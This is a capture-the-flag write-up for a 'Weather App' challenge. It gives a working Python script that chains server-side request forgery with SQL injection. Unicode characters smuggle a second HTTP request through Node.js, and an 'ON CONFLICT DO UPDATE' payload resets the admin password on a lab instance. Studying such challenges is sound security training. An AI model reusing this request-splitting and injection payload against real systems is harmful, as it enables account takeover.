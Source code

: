 # Weather App

This was a hard box for me. I found the SQL injection point, but was unable to build the correct SQL query to inject in order to be able to update the admin password. While reading a write up on this box I also saw the SSRF trick that was needed in order to trick the server in to registering a user on your behalf. Don't think I would have been able to figure that one out on my own. 

### Python script to pwn the box

```python3
import requests

url = "http://localhost:1337"
username = "admin"

# This is the SQL injection query that we want to run. The password for admin will be set to 123.
password = "123') ON CONFLICT(username) DO UPDATE SET password = '123'; --"

url_encoded_password = password.replace(" ", "\uFF20").replace("'","%27").replace('""', "%22")
length = len(url_encoded_password) + len(username) + 19

endpoint = "127.0.0.1/\uFF20HTTP/1.1\uFF0D\uFF0A"
endpoint += "Host:\uFF20127.0.0.1\uFF0D\uFF0A\uFF0D\uFF0A"
endpoint += "POST\uFF20/register\uFF20HTTP/1.1\uFF0D\uFF0A"
endpoint += "Host:\uFF20127.0.0.1\uFF0D\uFF0A"
endpoint += "Content-Type:\uFF20application/x-www-form-urlencoded\uFF0D\uFF0A"
endpoint += "Content-Length:\uFF20"+str(length)+"\uFF0D\uFF0A\uFF0D\uFF0A"
endpoint += "username="+username+"&password="+url_encoded_password+"\uFF0D\uFF0A\uFF0D\uFF0A"
endpoint += "GET\uFF20"

data = {"endpoint": endpoint, "city": "bla", "country": "bla"}

response = requests.post(url+"/api/weather", data=data)
```

### How the SQL exploit works

- The /register endpoint is vulnerable to a SQL injection but it only allows requests from `127.0.0.1`. So we have to trick the server in to sending the POST request with the SQL injection.
- The flag will only be visible if we log in with the `admin` username, so we have to change the password for the `admin` user.
- Sending a POST request with `username="admin"&password="123') ON CONFLICT(username) DO UPDATE SET password = '123'; --"` will do the trick. The complete query that the server recieves will look something like this `INSERT INTO users (username, password) VALUES (‘admin’, ‘123’) ON CONFLICT(username) DO UPDATE SET password = ‘123’; --`
- - the `username` is set to be UNIQUE, so the query will fail due to the UNIQUE clause. 
- - We then tell the SQLLite server to update the password if there is a conflict in the `username` column. 
- - `--` is a line comment, it tells SQL to ignore the rest of the query.

### How the SSRF exploit works

Essentially what we wan't to do is to tell the server to connect to itself and POST the SQLI query that we wrote. There is a route called `/api/weather` that we can abuse. Since we are able to define the `endpoint` parameter used by the server when sending its request to fetch the weather we can trick the server to sending a request to itself. 

The `/api/weather` request URL looks like this. 

`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`

A carefully crafted `endpoint` variable will trick the server to sending a POST request to itself. (See the `endpoint` variable in the python script above.) The string we're sending is bypassing the NodeJS parsing and injecting another HTTP request to the initial request.


So instead of sending this request as intended

```HTTP/1.1
GET /data/2.5/weather?q=Stockholm,SE&units=metric&appid=10a62430af617a949055a46fa6dec32f HTTP/1.1
Host: api.openweathermap.org
Connection: close
```

We're injecting our code to send this request. (Or something similar, not sure if the GET request to api.openweathermap.org is actually sent or cut off.) 

```HTTP/1.1
HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1

Content-Type: application/x-www-form-urlencoded
username=admin&password=theSQLquery

GET /data/2.5/weather?q=Stockholm,SE&units=metric&appid=10a62430af617a949055a46fa6dec32f HTTP/1.1
Host: api.openweathermap.org
Connection: close
```
